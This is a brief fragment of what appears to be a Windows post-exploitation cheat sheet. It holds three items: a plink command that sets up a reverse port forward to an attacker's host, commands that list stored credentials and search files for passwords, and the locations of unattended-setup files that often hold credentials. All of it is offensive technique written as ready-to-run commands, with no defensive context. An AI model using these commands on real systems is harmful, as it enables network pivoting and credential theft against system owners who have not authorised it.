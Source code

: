 **Plink Port Forwarding**
```powershell
plink.exe -l <LHOST_USER> -pw <LHOST_PASS> -R <RPORT>:<RHOST>:<LPORT> <LHOST>
```
### Hunting Passwords
```powershell
cmdkey /list
findstr /si password *.txt *.ini *.config
```
**Unattended Windows Setup**
- C:\\Windows\Panther\Unattend.xml
- C:\\Windows\Panther\Autounattend.xml